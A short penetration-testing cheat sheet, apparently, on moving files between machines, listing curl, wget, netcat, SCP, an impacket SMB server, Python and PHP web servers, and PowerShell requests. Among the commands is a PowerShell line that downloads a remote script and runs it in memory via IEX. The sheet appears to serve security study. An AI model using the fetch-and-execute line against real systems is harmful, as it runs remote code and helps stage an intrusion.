 # Methods

Copy & paste with base64 encoding.
`curl` Retrieve remote files.
`impacket-smbserver` Temporary SMB server.
`invoke-webrequest` PowerShell HTTP request.
`nc` Netcat file copy.
`net.webclient` PowerShell HTTP request.
`python` Temporary web server.
`scp` Remote file copy via SSH.
`wget` Retrieve remote files.

# PowerShell

Invoke Web Request
`Invoke-WebRequest "http://url/file" -OutFile "filepath\filename"`

Web Client
`IEX(new-object net.webclient).downloadstring('http://url/file')`

# SCP

Local to Remote
`scp -i id_rsa file user@remote-host:/remote/dir`

# SMB Server

```
impacket-smbserver -smb2support -username user -password pass share /local/dir

net use x: \\ipaddress\share /user:user pass
```

# Web Server

PHP
`php -S host:port`

Python
`python -m http.server port`
